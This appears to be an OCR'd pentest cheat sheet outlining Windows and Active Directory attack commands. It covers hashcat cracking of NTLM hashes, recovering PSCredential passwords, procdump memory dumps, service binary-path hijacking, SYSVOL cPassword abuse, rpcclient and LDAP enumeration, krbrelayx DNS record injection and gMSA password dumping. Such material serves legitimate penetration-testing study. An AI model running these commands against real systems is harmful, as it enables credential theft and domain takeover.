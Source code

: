         - hashcat   -m 1000 --username hash.txt  rockyou.txt 
  - PSCredential
    - create
      - $password = ConvertTo-SecureString "passw0rd" -AsPlainText -Force
      - $cred = New-Object System.Management.Automation.PSCredential ('admin', $password)
    - from xml
      - $cred = Import-CliXml -Path "./creds.xml"
    - get password
      - need to login as a correct user
      - $cred.GetNetworkCredential().Password
  - dump process
    - firefox etc
    - procdump64.exe -ma pid



- tasks
  - "exe" extenstion is required
  - sc.exe qc service_name
  - sc.exe config service_name bin_path="C:\\..."



- Services
  - samba
    - SYSVOL
      - Group Policy (SYSVOL/*/Groups.xml)
        - cPassword
        - MS14-025
    - Alternative Data Stream
      - allinfo file_name
      - get file_name:id
  - rpc
    - rpcclient
      - enumdomusers
      - lsaquery
      - queryuser
      - lookupnames administrator
        - administrator SID is always "S-1-5-21-?????????????-??????????????-???????????-500"
      - lookupsids S-1-5-21-?????????????-??????????????-???????????-XXXX
    - lookupsid user:password@192.168.1.1
  - ldap
    - root DSE
      - ldapsearch -x -h ldap_server.com  -s base
    - search (guest)
      - ldapsearch -x -h ldap_server.com -b "dc=example,dc=com"
    - seach (authenticate)
      - ldapsearch -x -D user@domain -w password -h example.com -b "dc=example,dc=com"
        - D options specify a userPrincipalName or DN
          - userPrincipalName: user@domain
          - DN: CN=Your Name,CN=Users,DC=example,DC=com
            - case-insensitive
      - GetADUsers  -all -dc-ip 192.168.1.1  domain/user
    - add DNS record ([krbrelayx](https://github.com/dirkjanm/krbrelayx))
      - dnstool.py  -u 'domain\user_name' -p 'password' -a add -r sub.example.com -d target-ip example.com
    - gMSA ([gMSADumper](https://github.com/micahvandeusen/gMSADumper))
      - msDS-ManagedPassword*
      - gMSADumper.py  -u user_name -p password -d example.com
    - delegate
      - msDS-AllowedToDelegateTo
      -  msDS-AllowedToActOnBehalfOfOtherIdentity
      - Delegation Attack
  - dns
    - sub domains
      - dnsrecon -d example.com -r 192.168.1.0/24 -n 8.8.8.8